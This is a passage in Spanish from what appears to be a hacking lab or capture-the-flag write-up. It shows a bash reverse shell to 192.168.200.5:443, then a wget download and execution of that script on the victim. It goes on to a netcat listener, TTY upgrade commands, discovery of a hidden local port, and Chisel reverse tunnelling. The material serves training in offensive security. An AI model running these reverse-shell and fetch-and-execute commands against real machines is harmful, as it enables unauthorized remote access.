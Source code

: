 Se procedió a crear una reverse shell para facilitar el acceso remoto a la máquina víctima. Se creó un script llamado "rev.sh" con el siguiente contenido:

```bash
bash -i >& /dev/tcp/192.168.200.5/443 0>&1
python3 -m http.server 8000
```

Luego, se estableció un servidor HTTP en la máquina atacante y se puso en escucha con Netcat en el puerto 443. En la máquina víctima, se descargó y ejecutó el script.

```bash
wget http://192.168.200.5:8000/rev.sh
chmod 777 rev.sh
bash rev.sh
```

Esto resultó en la obtención de una reverse shell en la máquina atacante via netcat por el puerto 443.

```bash
nc -nlvc 443
```

## TTY Handling y Descubrimiento de Puertos Ocultos

Dentro de la shell, se realizaron acciones para mejorar la TTY y se identificaron puertos que no se mostraban en el escaneo inicial con nmap.

```bash
script /dev/null -c bash
Control+Z
stty raw -echo; fg
reset xtermcd
export TERM=xterm
export SHELL=bash

ss -tuln
```

Se descubrió un puerto oculto "3000" que no aparecía en el escaneo inicial.

```plaintext
tcp    LISTEN  0       4096         127.0.0.1:3000        0.0.0.0:*
```

## Uso de Chisel para Enlazar Puertos

Se utilizó Chisel para crear un conducto y enlazar el puerto "3000" de la máquina víctima al puerto "3000" de la máquina atacante.

**Máquina atacante, en distintas shells:**
```bash
#shell 1:
python3 -m http.server 8000
#shell 2:
./chisel server --reverse -p 4000
```

